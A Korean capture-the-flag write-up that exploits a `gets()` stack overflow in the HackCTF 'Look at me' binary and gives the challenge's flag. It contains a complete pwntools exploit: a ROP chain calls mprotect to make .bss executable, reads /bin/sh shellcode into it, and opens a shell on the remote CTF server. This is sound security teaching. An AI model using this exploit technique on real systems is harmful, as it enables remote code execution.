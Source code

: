 # Look at me

---

우선 `main()`의 코드는 다음과 같다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+Ch] [ebp-Ch]

  setvbuf(stdout, 0, 2, 0);
  v4 = getegid();
  setresgid(v4, v4, v4);
  look_at_me();
  return 0;
}
```

여기서 `look_at_me()`라는 함수가 중요해보인다. 이 함수의 코드를 보자.

```c
int look_at_me()
{
  char v1; // [esp+0h] [ebp-18h]

  puts("Hellooooooooooooooooooooo");
  return gets(&v1);
}
```

gets함수를 통해서 대놓고 bufferoverflow 취약점을 주고 있다. 이를 이용해서 stackoverflow를 이용하면 될 것이다.

이 프로세스에 걸린 보호기법을 살펴보면 다음과 같다.

```gdb
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

NX가 걸려있기 때문에 shellcode를 사용할 수는 없으며, CANARY가 걸려있지 않아서 원하는대로 ret주소를 조작할 수 있다.


---


쉘을 따기 위해서 system함수에 "/bin/sh" 인자를 주려고 하였으나 system 이 프로세스에 system함수가 존재하지 않았다.

```gdb
gdb-peda$ p system
No symbol table is loaded.  Use the "file" command.
```gdb

때문에 다른 함수를 이용하여야 했는데 그 중에서 `mprotect()`라는 함수가 보였다.

`mprotect()`함수는 메모리의 권한을 변경해주는 함수이다. 현재는 NX보호기법 때문에 stack에 실행권한이 없기 때문에 shellcode를 사용하지 못하였다. 하지만 `mprotect()`함수를 이용해서 stack의 특정부분에 실행권한을 부여한다면 shellcode를 이용하여 익스플로잇을 할 수 있을 것이다.

`mprotect()`함수의 형태는 다음과 같다.

**int mprotect(const void \*addr, size_t len, int prot)**

첫 번째 인자인 addr은 권한을 변경하고자 하는 메모리의 주소, 두 번째 인자인 len은 메모리의 길이, 세 번째 인자인 prot는 권한을 나타낸다. 이때, 주의해야할 점은 addr의 메모리가 0x1000의 배수여야 한다는 점이다.

이를 이용해서 익스플로잇을 진행해보자.

---

우선 `puts()`를 이용해서 ebp의 주소값을 출력하여 stack의 위치를 알아내고, 해당 위치의 주소값에 `mprotect()`를 이용해서 실행권한을 부여하고, 그 밑에 shellcode를 삽입하여 익스할 것이다.

이와 같이 한다면 완벽하겠지만 `puts()`를 이용해서 ebp의 주소값을 출력하기 번거롭기 때문에 고정주소인 bss영역을 이용하여 해당 공간에 shellcode를 삽입하여 `mprotect()`함수로 실행권한을 부여하도록 하겠다. 이를 위해서 필요한 정보들은 다음과 같다.

**mprotect 함수 주소 <br>
gets 함수 주소<br>
"pop ret" gadget<br>
bss영역 주소<br>
"pppr" gadget**

`mprotect()`함수와 `gets()` 함수의 주소는 다음과 같다.
```gdb
    gdb-peda$ p mprotect
    $1 = {<text variable, no debug info>} 0x806e0f0 <mprotect>
    gdb-peda$ p gets
    $2 = {<text variable, no debug info>} 0x804f120 <gets>
```
**mprotect\_address=0x806e0f0**<br>
**gets\_address=0x804f120**

pppr gadget의 위치는 ropsearch로 찾아지지 않아서 `puts()`함수에 있는 다음 부분을 이용하였다.
```gdb
    gdb-peda$ pd puts
    Dump of assembler code for function puts:
    ...
       0x0804f3af <+271>:	pop esi
       0x0804f3b0 <+272>:	pop edi
       0x0804f3b1 <+273>:	pop ebp
       0x0804f3b2 <+274>:	ret
    ...
    End of assembler dump.
```

**pppr\_gadget=0x804f3af**<br>i
**pr\_gadget=0x804f3b1**

bss영역의 주소는 다음과 같다.
```bash
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/18.Lookatme$ readelf -S lookatme
There are 31 section headers, starting at offset 0xb0cd0:

Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
...
  [25] .bss              NOBITS          080eaf80 0a1f80 000e0c 00  WA  0   0 32
...
```
**bss\_address=0x80eaf80**

마지막으로 `look_at_me()`의 어셈블리 코드를 보면 buf의 위치가 [ebp-0x18]이기 때문에 28bytes의 dummy가 필요한 것을 알 수 있다.

```gdb
gdb-peda$ pd look_at_me
Dump of assembler code for function look_at_me:
   0x0804887c <+0>:	push   ebp
   0x0804887d <+1>:	mov    ebp,esp
   0x0804887f <+3>:	sub    esp,0x18
   0x08048882 <+6>:	sub    esp,0xc
   0x08048885 <+9>:	push   0x80bb328
   0x0804888a <+14>:	call   0x804f2a0 <puts>
   0x0804888f <+19>:	add    esp,0x10
   0x08048892 <+22>:	sub    esp,0xc
   0x08048895 <+25>:	lea    eax,[ebp-0x18]
   0x08048898 <+28>:	push   eax
   0x08048899 <+29>:	call   0x804f120 <gets>
   0x0804889e <+34>:	add    esp,0x10
   0x080488a1 <+37>:	leave  
   0x080488a2 <+38>:	ret    
End of assembler dump.
```

이를 통해서 다음과 같이 익스플로잇 코드를 짤 수 있었다.

```python
from pwn import*

mprotect_address=0x806e0f0
gets_address=0x804f120
pr_gadget=0x804f3b1
pppr_gadget=0x804f3af
bss_start=0x80ea000
bss_address=0x80eaf80

p=remote('ctf.j0n9hyun.xyz',3017)

p.recvline()

payload='A'*28
payload+=p32(mprotect_address)
payload+=p32(pppr_gadget)
payload+=p32(bss_start)
payload+='\x00\x20\x00\x00'
payload+=p32(7)
payload+=p32(gets_address)
payload+=p32(pr_gadget)
payload+=p32(bss_address)
payload+=p32(bss_address)

shellcode='\x31\xc0\x31\xd2\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80'

p.sendline(payload)

p.sendline(shellcode)

p.interactive()
```

flag는 다음과 같다.
```bash
    sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/18.Lookatme$ python ex.py
    [+] Opening connection to ctf.j0n9hyun.xyz on port 3017: Done
    [*] Switching to interactive mode
    $ whoami
    attack
    $ ls
    flag
    main
    $ cat flag
    HackCTF{Did_you_understand_the_static_linking_method?}

**flag: HackCTF{Did_you_understand_the_static_linking_method?}**
```
---

이 방법을 제외하고도 `mmap()`함수를 이용하여 실행권한을 가진 메모리를 직접 할당하고 해당 영역에 shellcode를 삽입하는 방법도 존재한다.
